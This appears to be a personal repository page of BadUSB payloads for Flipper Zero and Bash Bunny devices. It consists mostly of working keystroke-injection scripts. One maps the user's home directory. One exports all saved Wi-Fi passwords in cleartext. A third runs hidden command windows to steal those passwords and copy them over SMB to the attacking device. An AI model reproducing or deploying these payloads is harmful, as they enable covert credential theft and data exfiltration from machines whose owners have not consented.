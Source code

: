 # BadUSB:

### Flipper Zero:

#### File Tree:

- Requires external USB drive to save results to
- I found a different badusb script, but thought I could do better

```ruby
DEFAULTDELAY 250
DELAY 3000
GUI r
DELAY 400
STRING cmd.exe
DELAY 500
ENTER
DELAY 800
STRING For %g In (A B C D E F G H I J K L M N O P Q R S T U V W X Y Z)Do @Vol %g: 2>NUL|%__AppDir__%find.exe /I "RedCabbage" > NUL && set DRIVE=%g
DELAY 800
ENTER
DELAY 200
STRING FOR /F "tokens=*" %h IN ('hostname') do (SET VAR=%h) && set FOLDER="%DRIVE%:\\treeofknowledge\\" && SET HOSTNAME="%h"
DELAY 200
ENTER
DELAY 200
STRING if not exist "%FOLDER%" mkdir "%FOLDER%"
DELAY 800
ENTER
DELAY 500
STRING cd /d "%FOLDER%"
DELAY 800
ENTER
DELAY 500
STRING tree /a /f %USERPROFILE% >> "%HOSTNAME%".txt && exit
ENTER
ALT SPACE
STRING n
```

----------------

#### Get Wifi-Passwords

- Requires external USB drive to save results to
- This just gets all the wifi passwords saved on a Windows computer

```ruby
GUI r
DELAY 500
STRING cmd.exe
DELAY 500
ENTER
DELAY 800
STRING For %g In (A B C D E F G H I J K L M N O P Q R S T U V W X Y Z)Do @Vol %g: 2>NUL|%__AppDir__%find.exe /I "RedCabbage" > NUL && set DRIVE=%g
DELAY 800
ENTER
DELAY 200
STRING FOR /F "tokens=*" %h IN ('hostname') do (SET VAR=%h) && set FOLDER="%DRIVE%:\\networks\\%h"
DELAY 200
ENTER
DELAY 200
STRING if not exist "%FOLDER%" mkdir "%FOLDER%"
DELAY 800
ENTER
DELAY 500
STRING cd /d "%FOLDER%"
DELAY 800
ENTER
DELAY 500
STRING netsh wlan export profile key=clear && exit
DELAY 500
ENTER
ALT SPACE
STRING n
```

----------------

### Bash Bunny:

Link: https://shop.hak5.org/products/bash-bunny

------

- Overpriced board that runs a full Linux distro and can run scripts like a rubber ducky
- Pretty good for what it is, but documentation is not that great
- Payload library: https://github.com/hak5/bashbunny-payloads

SMB Payload:
------

- Built off of the script I found on a github repo (I think it was the official payloads repo by hak5)

```ruby
#!/bin/bash
#
# Title:         SMB File Transfer
# Author:        Alex
# Version:       1.1
# Category:      Exfiltration/Remote access
# Target:        Windows (Tested on Windows 10)
# Attackmodes:   HID, Ethernet
#
# REQUIREMENTS
# ============
# Needs impacket to be copied to /tools/impacket and installed
# Option A:
#   1. Download impacket from https://github.com/CoreSecurity/impacket
#   2. Copy impacket folder to /tools on the Bash Bunny flash drive
#   3. Boot Bash Bunny into arming mode and connect to console via serial
#   4. Issue "python /tools/impacket/setup.py install"
# Option B:
#   1. Download impacket deb package 
#   2. Copy impacket.deb to /tools on the Bash Bunny flash drive
#   3. Boot Bash Bunny into arming mode. Impacket will install automatically. 

# Initilization	
LED SETUP
ATTACKMODE HID RNDIS_ETHERNET

# set lootdir on disk
LOOTDIR=/root/udisk/loot/smb

# get all the required information via convenient variables
GET TARGET_HOSTNAME
GET TARGET_IP
GET HOST_IP

HOST=${TARGET_HOSTNAME}
# If hostname is blank set it to "noname"
[[ -z "$HOST" ]] && HOST="noname"
COUNT=$(ls -lad $LOOTDIR/$HOST* | wc -l)
COUNT=$((COUNT+1))
mkdir -p $LOOTDIR/$HOST-$COUNT
mkdir /tmp/networks

# Start the SMB Server
python /tools/impacket/examples/smbserver.py -smb2support 'Documents' '/tmp' >> $LOOTDIR/$HOST-$COUNT/smbserver.log &

# HID
LED Y SINGLE
RUN WIN cmd.exe /minimized /c "net use \\\\$HOST_IP\Documents\Policy.docx && exit"
Q ENTER
Q DELAY 1000

RUN WIN cmd.exe /minimized /c "mkdir %temp%\\networks\\ && cd %temp%\\networks\\ && netsh wlan export profile key=clear && exit"
Q ENTER
Q DELAY 1000

RUN WIN cmd.exe /minimized /c "robocopy %temp%\\networks\\ "\\\\$HOST_IP\\Documents\\networks\\""
Q ENTER
Q DELAY 3000

# copy logs to loot directory
cp logs/* /root/loot/smb/$HOST-$COUNT
cp logs/* $LOOTDIR/$HOST-$COUNT

mv /tmp/networks /root/loot/smb/$HOST-$COUNT
mv /tmp/networks  $LOOTDIR/$HOST-$COUNT


# Sync USB disk filesystem
sync

LED FINISH
```
